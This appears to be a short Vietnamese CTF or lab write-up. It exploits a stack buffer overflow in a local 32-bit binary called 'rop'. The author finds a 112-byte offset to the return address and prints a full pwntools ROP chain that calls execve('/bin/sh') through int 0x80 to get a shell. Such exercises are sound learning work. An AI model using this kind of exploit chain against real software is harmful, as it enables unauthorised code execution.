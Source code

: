 Ta đi tìm return address để ghi đè. Khi disassemble, đặt breakpoint ở hàm gets
![image](https://hackmd.io/_uploads/SkYDFYlzyx.png)
![image](https://hackmd.io/_uploads/HyaRqteMyx.png)
Buffer bắt đầu ở đầu ở `0xffffcbfc`
![image](https://hackmd.io/_uploads/r1k-hFef1l.png)
eip ở `0xffffcc6c`, từ đó ta cần truyền 112 bytes để ghi đè. Từ đó ta tổng hợp thành code exploit
```python
from pwn import *
sh = process('./rop')
pop_eax_ret = 0x080bb196 # change to correct address
pop_edcb_ret = 0x0806eb90 # change to correct address
int_0x80 = 0x08049421 # change to correct address
binsh_ret = 0x080be408 # change to correct address
payload = b'a' * 112 # padding to overflow
payload += p32(pop_eax_ret) # overwrite ret addr with addr of the first gadget
payload += p32(0x0b) # should be value for register in gadget
# add more infor to complete your payload
payload += p32(pop_edcb_ret)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(binsh_ret)
payload += p32(int_0x80)
## send payload
sh.sendline(payload)
sh.interactive()
```
![image](https://hackmd.io/_uploads/Hk3-6Kgfyl.png)

Exploit thành công
